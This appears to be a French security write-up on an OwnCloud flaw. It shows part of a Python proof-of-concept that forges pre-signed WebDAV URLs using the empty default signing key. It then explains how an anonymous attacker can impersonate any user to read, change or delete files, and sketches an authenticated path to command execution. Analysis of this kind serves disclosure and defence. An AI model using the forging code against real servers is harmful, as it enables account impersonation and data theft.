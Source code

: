 ```python
    do_LOCK = do_ANY
    do_MKCOL = do_ANY
    do_MOVE = do_ANY
    do_PROPFIND = do_ANY
    do_PROPPATCH = do_ANY
    do_UNLOCK = do_ANY


def compute_hash(url: str) -> str:
    url = url.encode()
    signing_key = "".encode()
    iterations = 10000
    return hashlib.pbkdf2_hmac("sha512", url, signing_key, iterations, dklen=32).hex()


def build_signed_url(method: str, username: str, url: str) -> str:
    parsed = turl.parse(url)
    params = qs.parse(parsed.query)
    params["OC-Credential"] = username
    params["OC-Verb"] = method
    params["OC-Expires"] = "1000"
    params["OC-Date"] = ""
    parsed = parsed._replace(query=qs.unparse(params))
    params["OC-Signature"] = compute_hash(turl.unparse(parsed))
    parsed = parsed._replace(query=qs.unparse(params))
    return turl.unparse(parsed)


main()
```

<br>

### Etude du scénario le plus probable : scénario anonyme

Le scénario le plus probable de se produire est celui **anonyme**. Il est aussi le plus simple à expliquer et à exploiter contrairement au second.

Les grandes lignes de l'attaque :

1. L'attaquant accéde au service `WebDAV` présent sur `/remote.php/dav`. `WebDAV` est une extension de `HTTP` et permet de simplifier la gestion de fichiers avec des serveurs distants.
2. OwnCloud autorise l'authentification à partir d'un username et d'une clef de signature.
3. Par défaut, la clef définie est **VIDE** (!!!) 😱
4. L'attaquant usurpe l'identité de n'importe quel utilisateur juste en connaissant le nom d'utilisateur.
5. L'attaquant accède au `WebDAV` et consulte/modifie/supprime n'importe quel fichier 😭

### Etude du scénario le moins probable : scénario authentifié

Ce scénario est moins probable car il nécessite un **compte authentifié**. Il est plus complexe à mettre en place et permet une exécution de commande. Comme vu précédemment, il est possible d'utiliser la signature vide de n'importe quel utilisateur. Or, il est impossible d'accéder aux fonctionnalités de l'utilisateur et de l'administrateur avec. Un contournement est alors possible !

